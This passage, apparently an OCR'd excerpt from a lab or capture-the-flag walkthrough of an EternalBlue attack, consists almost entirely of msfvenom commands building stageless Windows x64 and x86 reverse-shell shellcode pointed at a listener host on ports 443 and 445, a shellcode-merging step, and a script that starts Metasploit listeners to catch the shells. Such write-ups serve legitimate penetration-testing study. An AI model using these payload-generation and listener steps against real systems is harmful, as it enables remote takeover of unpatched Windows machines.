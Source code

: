     msfvenom -p windows/x64/shell_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=10.254.1.47 LPORT=443
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 460 bytes
    Saved as: sc_x64_msf.bin

    Generating x86 cmd shell (stageless)...

    msfvenom -p windows/shell_reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=10.254.1.47 LPORT=445
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 324 bytes
    Saved as: sc_x86_msf.bin

    MERGING SHELLCODE WOOOO!!!
    DONE



Next I'll run the script to prepare the listeners, giving the same port
numbers and IP I gave in the previous script. It will start Metasploit
and start two listeners:



    root@kali# ./listener_prep.sh
      __
      /,-
      ||)
      \\_, )
       `--'
    Eternal Blue Metasploit Listener

    LHOST for reverse connection:
    10.254.1.47
    LPORT for x64 reverse connection:
    443
    LPORT for x86 reverse connection:
    445
    Enter 0 for meterpreter shell or 1 for regular cmd shell:
    1
    Type 0 if this is a staged payload or 1 if it is for a stageless payload
    1
    Starting listener (stageless)...
    [ ok ] Starting postgresql (via systemctl): postgresql.service.


    MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM
    MMMMMMMMMMM                MMMMMMMMMM
    MMMN$                           vMMMM
    MMMNl  MMMMM             MMMMM  JMMMM
    MMMNl  MMMMMMMN       NMMMMMMM  JMMMM
    MMMNl  MMMMMMMMMNmmmNMMMMMMMMM  JMMMM
    MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM
    MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM
    MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM
    MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM
    MMMNI  MMMNM   MMMMMMM   MMMMM  jMMMM
    MMMNI  WMMMM   MMMMMMM   MMMM#  JMMMM
    MMMMR  ?MMNM             MMMMM .dMMMM
    MMMMNm `?MMM             MMMM` dMMMMM
    MMMMMMN  ?MM             MM?  NMMMMMN
    MMMMMMMMNe                 JMMMMMNMMM
    MMMMMMMMMMNm,            eMMMMMNMMNMM